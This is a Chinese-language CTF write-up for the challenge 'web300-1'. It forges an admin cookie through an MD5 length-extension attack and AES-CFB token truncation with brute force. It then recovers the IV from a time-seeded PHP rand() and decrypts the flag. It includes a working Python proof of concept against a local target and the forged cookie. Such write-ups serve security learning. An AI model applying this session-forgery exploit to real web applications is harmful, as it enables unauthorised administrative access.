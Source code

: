 
## web300-1 writeup 

在 www.tar.gz 下载到源码,进行审计:
发现flag已经加密了

```php
require_once('encrypt.php');
file_put_contents('./backup.txt', token_encrypt(file_get_contents('./flag.txt')));
```
由于不知道key,所以要想解密需要用管理员身份:
```php
if ($admin) {
    $text = '';
    if (isset($_POST['do'])) {
        switch ($_POST['do']) {
            case 'encrypt':
                $text = bin2hex(mcrypt_encrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
            case 'decrypt':
                $text = bin2hex(mcrypt_decrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
        }
    }
}
```
所以思路是用重放攻击来伪造管理员身份.
注册一个用户名为 `$user|1|$hash` 的账号,然后用它的身份登陆(登陆不会成功),但是会产生cookie.截取cookie合适的长度,得到`$user|1|$hash`的加密结果,伪造管理员身份.

但是 `$user|1|$hash` 中的`$hash` 没有办法知道,并且在登陆的时候做了验证.
```php
if (isset($_COOKIE['token'])&&isset($_COOKIE['sign'])) {
	$sign = $_COOKIE['sign'];
	$token = $_COOKIE['token'];
	$arr = explode('|', token_decrypt($token));

	if (count($arr) == 3) {
		if (md5(get_indentify().$arr[0]) === $arr[2] && $sign === $arr[2]) {
			$user = $arr[0];
			$admin = (int)$arr[1];
		}
	}
}
```
来看 `sign`和`token` 的产生过程:
```php
$user = $_POST['user'];
				// get_indentify() 获取10位的key,做一个身份签名,防止身份伪造
				
				$md5 = md5(get_indentify().$user);
				$admin = 0;
				// $token = token_encrypt("$user|$admin|$md5");
				$token = token_encrypt("$user|$admin|$md5");
				setcookie('sign',$md5,time()+5*60,"/",'',false,true);
				setcookie('token',$token,time()+5*60,"/",'',false,true);
```

根据`$sign = md5(get_indentify().$user)`知道,这里$sign可以用hash长度扩展攻击,
并且根据注释知道前缀是10位的.

再构造用户名的时候需要注意,因为在加密前进行了位扩展
```php
function pad($str) {
	return $str . str_repeat(chr(BS - strlen($str) % BS), (BS - strlen($str) % BS));
}
```
不是16字节的倍数,就补够16的字节的倍数,如果是16字节的倍数,就会在后面再加16字节,这里构造的用户名不应该是16字节的整数倍,而应该是16字节的倍数减1位.
因为需要hash扩展攻击,需要的长度比较多,构造79位的可能容不下hash扩展攻击的冗余字节,所以我这里构造95位的用户名.

解题:
1. 注册一个用户名 wonderkun 获取签名: ee11925035598658e4ea6364806d6796

2. 用户名是9位的,需要扩展的位数为 95-32-3-9=51,所以需要扩展51位, append 的数据随意,只要凑够51位就可以

```bash 
$ python md5pad.py  ee11925035598658e4ea6364806d6796 tadmin 19 
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x98\x00\x00\x00\x00\x00\x00\x00tadmin'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin
md5: fe46d7d8924ec23d69f8d01432de41aa
```
3. 所以需要构造的用户名为 `wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa`

用这个账号注册一个用户,然后用这个账号登陆获取cookie的token的前190位,就是这95的加密结果,但是95位是需要进行pad的,扩展了一位,所以最后一位的加密结果需要爆破出来:

给出了 python的poc:

```python
#!/usr/bin/python
# coding:utf-8 


import requests

def login():
    url = "http://127.0.0.1:4444/index.php?action=login"
    data = "user=wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa&pwd=1"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    
    res = requests.post(url,data=data,allow_redirects=False,proxies={"http":"127.0.0.1:8080"},headers=header)
    return res.cookies['token'][:190]
def getAdminToken(token):
    randstr="0123456789abcdef"
    for i in randstr:
        for j in randstr:
            # token = token+i+j
            url="http://127.0.0.1:4444/index.php?action=home"
            headers = {
                'Cookie':'sign='+'fe46d7d8924ec23d69f8d01432de41aa'+';'+'token='+token+i+j
            }                    
            # print url
            proxy = {"http":"127.0.0.1:8080"}
            res=requests.get(url,headers=headers,proxies=proxy)
            if "User" in res.text:
                print "[*] Cookie:",headers['Cookie']
                return
            else:
                print  "[*] failed"
                # print res.text

if __name__ == "__main__":
    tokenPre=login()
    print tokenPre
    getAdminToken(tokenPre)

```
获取一个可用的cookie,就可以获取一个管理员身份:
```
[*] Cookie: sign=fe46d7d8924ec23d69f8d01432de41aa;token=2a3654363a57be283fbfc6d730c55c646cfe9b1a04c1ff10aa80327828ab6ca990b95fe6a00a9f6494abb1d47321643ed79e8c6b33bb6074e91a5d5be9f92fb5933500e7859129b4dc2c3f99b7738fa4dfed60e2fc8cb34f959e4287ce53185c
```
接下来获取$iv,看backup.txt的时间,
```
Apr 12 09:26  转化为时间戳为: 1491960409 
```
获取$iv:

** 注意这里要用64的linux操作系统产生 iv,windows和linux产生的随机序列是不一样的 **

```php
function getRandChar($length){
	$str = null;
	$strPol = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz";
	for($i=0;$i<$length;$i++){
		$n = rand(0, strlen($strPol) - 1);
		$str.=$strPol[$n];
	}
	return $str;
}
srand( 1491960409/ 300);
$iv = getRandChar(16);
echo bin2hex($iv);
echo "\n";
```
获取$iv = 6f39784745597a644b52354a50497976
然后解密:backup.txt的内容:
得到flag: flag{660b7b8c06e3150d174a3ec9fcd7ab9d}



### 别的解题思路的wp
- [*] [chamd5安全团队](http://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247483908&idx=1&sn=66a6fb3bdd5bc391791db02f0ced5456&chksm=e89e2adcdfe9a3ca236b95c00a7362bfd3908d3ef69a207efd544e1c9dcc385f5d767605d921&mpshare=1&scene=23&srcid=0417hAKjzBELkY81prwMPZO9#rd)
- [*] [墨麒麟安全实验](http://www.ifuryst.com/archives/AES_CFB_Attack.html)